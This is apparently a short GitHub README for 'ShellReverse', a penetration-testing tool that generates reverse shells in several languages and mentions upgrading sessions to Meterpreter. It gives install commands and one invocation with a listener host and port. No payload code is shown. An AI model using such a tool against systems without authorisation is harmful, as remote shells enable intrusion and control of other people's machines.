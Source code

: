 # ShellReverse

# Install in Debian or Kali

    git clone https://github.com/cybervaca/ShellReverse
    cd shellreverse
    sudo apt-get update > /dev/null
    sudo apt-get install libunwind8 libicu55  
    wget https://github.com/PowerShell/PowerShell/releases/download/v6.0.0-alpha.13/powershell_6.0.0-alpha.13-1ubuntu1.16.04.1_amd64.deb
    sudo dpkg -i powershell_6.0.0-alpha.13-1ubuntu1.16.04.1_amd64.deb
    powershell
    ./shell-reverse.ps1 -LHOST 192.168.1.20 -LPORT 4444 -

# Languaje
&nbsp;&nbsp;&nbsp;**Perl**&nbsp;&nbsp;
&nbsp;&nbsp;&nbsp;**Python**&nbsp;&nbsp;
&nbsp;&nbsp;&nbsp;**Python3**&nbsp;&nbsp;
&nbsp;&nbsp;&nbsp;**Ruby**&nbsp;&nbsp;
&nbsp;&nbsp;&nbsp;**PHP**&nbsp;&nbsp;
&nbsp;&nbsp;&nbsp;**Java**&nbsp;&nbsp;
&nbsp;&nbsp;&nbsp;**Bash**&nbsp;&nbsp;


# Video Example
![](https://github.com/cybervaca/ShellReverse/blob/master/example.gif)

# AutoUpdate to Meterpreter
